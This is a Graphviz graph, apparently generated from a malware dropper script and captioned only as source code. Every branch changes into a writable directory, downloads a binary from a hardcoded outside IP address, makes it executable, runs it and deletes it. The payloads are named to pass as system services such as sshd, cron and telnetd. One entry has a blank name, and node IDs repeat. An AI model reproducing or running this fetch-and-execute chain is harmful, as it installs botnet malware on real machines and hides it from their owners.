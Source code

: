 digraph {
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 10 [label="||,"];
10 [label="wget http://89.36.213.43/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 28 [label="||,"];
28 [label="wget http://89.36.213.43/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 46 [label="||,"];
46 [label="wget http://89.36.213.43/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 64 [label="||,"];
64 [label="wget http://89.36.213.43/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 82 [label="||,"];
82 [label="wget http://89.36.213.43/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 100 [label="||,"];
100 [label="wget http://89.36.213.43/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 118 [label="||,"];
118 [label="wget http://89.36.213.43/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 136 [label="||,"];
136 [label="wget http://89.36.213.43/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 154 [label="||,"];
154 [label="wget http://89.36.213.43/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 172 [label="||,"];
172 [label="wget http://89.36.213.43/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 190 [label="||,"];
190 [label="wget http://89.36.213.43/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 208 [label="||,"];
208 [label="wget http://89.36.213.43/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 226 [label="||,"];
226 [label="wget http://89.36.213.43/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 232 [label=";,"];
232 [label="rm -rf telnetd "];
232 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 244 [label="||,"];
244 [label="wget http://89.36.213.43/[cpu] "];
244 -> 246 [label=";,"];
246 [label="chmod +x [cpu] "];
246 -> 248 [label=";,"];
248 [label="./[cpu] "];
248 -> 250 [label=";,"];
250 [label="rm -rf [cpu] "];
250 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 262 [label="||,"];
262 [label="wget http://89.36.213.43/LOLKYS "];
262 -> 264 [label=";,"];
264 [label="chmod +x LOLKYS "];
264 -> 266 [label=";,"];
266 [label="./LOLKYS "];
266 -> 268 [label=";,"];
268 [label="rm -rf LOLKYS "];
268 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 280 [label="||,"];
280 [label="wget http://89.36.213.43/Juuuo "];
280 -> 282 [label=";,"];
282 [label="chmod +x Juuuo "];
282 -> 284 [label=";,"];
284 [label="./Juuuo "];
284 -> 285 [label=";,"];
}
